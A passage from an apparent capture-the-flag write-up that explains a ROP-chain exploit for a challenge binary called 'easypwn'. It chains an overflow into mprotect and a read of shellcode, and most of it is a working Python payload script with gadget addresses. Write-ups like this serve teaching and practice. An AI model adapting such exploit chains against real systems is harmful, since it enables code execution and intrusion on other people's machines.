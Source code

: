 I am going to use the syscall `mprotect` to make the code section from 0x8048000 to 0x8049000 writeable. When this succeeds, I can use syscall `read` to read in any shellcode from stdin to the code section. Finally, I simply return to that region. 

A problem here is that I can't set `eax` to 125 (==mprotect) with my little gadget. Instead, I re-use the return value of the last syscall before the buffer overflow: `read`! The return value of that syscall will be the number of bytes read... If we pass in 125 bytes as payload, then we get exactly the syscall number of mprotect in `eax`!

Here's what I came up with, bit by bit. I started the binary via socat, to emulate the target system: 

```bash
bas@tritonal:~/adventctf$ socat TCP-LISTEN:28099,fork EXEC:./easypwn
```

And this is the ROP chain I built:

```python
#!/usr/bin/python

import struct
import socket
import telnetlib

SYSCALL = 0x8048080
POPRET = 0x80480eb  # pop esi; ret
ADDESP = 0x80480bb  # add esp, 0x10; ret
LESEAX = 0x80480e9  # les eax,FWORD PTR [esi+ebx*2]

def p(x):
  return struct.pack("<L", x)

payload = ""

payload += "A"*16       # smash stack!

payload += p(SYSCALL)   # I rely on the return value of the read syscall
payload += p(ADDESP)    # fix stack with add esp, 10; ret
payload += p(0x8048000) # address to modify
payload += p(0x1000)    # length (page-aligned!)
payload += p(0x7)       # PROT_READ|PROT_WRITE|PROT_EXEC
payload += "AAAA"       # dummy value

# reset ebx so we can set eax using the next gadget
payload += p(SYSCALL)
payload += p(ADDESP)
payload += p(0)         # set ebx = 0
payload += p(0x1000)    # don't care
payload += p(0x7)       # don't care
payload += "AAAA"       # dummy

# set eax = 3
# 0x804834a:    0x00000003  0x00000000
payload += p(POPRET)    # pop esi; ret
payload += p(0x804834a) # set esi = 0x804834a
payload += p(LESEAX)    # eax -> 0x3 == syscall_read

payload += p(SYSCALL)
payload += p(ADDESP)    # fix stack
payload += p(0)         # stdin
payload += p(0x8048000) # address of buffer
payload += p(0x200)     # number of bytes to read
payload += "BBBB"       # dummy value

payload += p(0x8048000) # return to shellcode!
```